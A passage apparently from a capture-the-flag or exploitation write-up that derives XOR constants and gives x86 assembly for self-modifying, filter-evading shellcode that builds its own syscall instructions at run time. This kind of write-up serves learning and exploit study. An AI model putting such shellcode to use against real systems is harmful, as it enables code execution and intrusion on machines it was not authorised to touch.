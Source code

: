 This makes our value of `eax = 0xffffffff`, and so we then want to find `x` so that
```
x ^ 0xffffffff = 0xd7d7c78a
x = 0xd7d7c78a ^ 0xffffffff
x = 0x28283875
```

So, this finally gives us a way to get the value we need!
We'll store it in `esi`, mainly because we won't have any use for `esi` later.
To summarize:

```
push 0x20
pop eax
xor al, 0x20
dec eax
xor eax, 0x28283875
push eax
pop esi
```
Now, finally, we just have to manipulate `eax` so that we place the syscalls far enough apart so that we have space for our shellcode.
Note that this massive space for the syscall is unnecessary and was mainly used as huge scratch space for figuring out the syscalls individually; mainly an artifact.
Note that this assumes a payload size of `0xd4`, and for differing payload sizes different constants would have to be used.
```
push ebx
pop eax
xor al, 0x72
xor [eax], esi
xor al, 0x26
xor [eax], esi
```

## Solving remaining minor problems and putting the shellcode together

Initially, we do the syscall setup.

```
push ebx
push 0x20
pop eax
xor al, 0x20
dec eax
xor eax, 0x28283875
push eax
pop esi

push ebx
pop eax
xor al, 0x72
xor [eax], esi
xor al, 0x26
xor [eax], esi
```
